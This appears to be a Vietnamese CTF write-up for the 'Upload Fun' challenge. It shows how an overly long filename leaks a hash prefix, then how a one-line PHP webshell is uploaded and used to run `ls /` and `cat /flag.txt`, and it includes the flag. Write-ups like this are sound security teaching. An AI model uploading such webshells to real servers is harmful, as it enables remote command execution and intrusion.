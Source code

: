 # Upload Fun

![upload-fun](images/upload-fun.png)

## Solution

Truy cập vào URL được cung cấp, chúng ta sẽ thấy trang web như sau:

![upload-fun-1](images/upload-fun-1.png)

Theo như tên challenge và đọc qua đoạn code trên, chúng ta có thể hiểu rằng mình cần tải lên webshell, từ đó tìm đọc được flag.

Tuy nhiên, thứ gây trở ngại ở đây là tên file tải lên được nối thêm chuỗi hash của flag với địa chỉ IP cộng thêm dấu `_` vô phía trước:

![upload-fun-2](images/upload-fun-2.png)

Mình loay hoay tìm cách khai thác nhưng không thành công. Thật tuyệt vời, anh mentor của mình đã phát hiện ra chỉ cần đặt tên file thật dài là sẽ leak được phần hash.

Để bắt đầu thực hiện, mình thêm phần bên dưới vào request để có thể tải lên file:

```text
Content-Type: multipart/form-data; boundary=---------------------------735323031399963166993862150

-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="f"; filename=""
Content-Type: text/plain


-----------------------------735323031399963166993862150--
```

Chú ý đổi request method sang `POST`:

![upload-fun-3](images/upload-fun-3.png)

Tiếp đến mình sẽ đặt `filename` là chuỗi siêu dài:

```text
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Gửi request đi, mình nhận được response chứa warning:

![upload-fun-4](images/upload-fun-4.png)
![upload-fun-5](images/upload-fun-5.png)

Từ đó, mình biết chuỗi được nối vào trước tên file là `331763d5cb0983f537fb0adcade90717750397b3839c7f844c98eca4ee27fa4d_`.

Công việc tiếp theo là chỉ cần tải lên webshell để thực hiện RCE đọc flag thôi.

Mình sẽ đổi `filename` thành `shell.php` và thêm đoạn code PHP bên dưới:

```php
<?php system($_GET['cmd']); ?>
```

Gửi request tải file lên thành công:

![upload-fun-6](images/upload-fun-6.png)

Tiếp đến, cần truy cập tới file PHP vừa tải lên để RCE. Mình gửi GET request tới `/uploads/331763d5cb0983f537fb0adcade90717750397b3839c7f844c98eca4ee27fa4d_shell.php?cmd=ls /` để xem có file nào chứa flag ở `/` không. Chú ý encode URL `ls /` của tham số `cmd`, bên dưới mình sử dụng extension Hackvertor để encode.

Mình xác định được ở `/` có chứa file `flag.txt`:

![upload-fun-7](images/upload-fun-7.png)

Cuối cùng, để đọc được file `flag.txt`, mình sử dụng `cat /flag.txt`.

Yahh, lấy được flag rồi:

![upload-fun-8](images/upload-fun-8.png)

## Flag

`wctf{h0w_d1d_y0u_gu355_th3_f1l3n4me?_7523015134}`
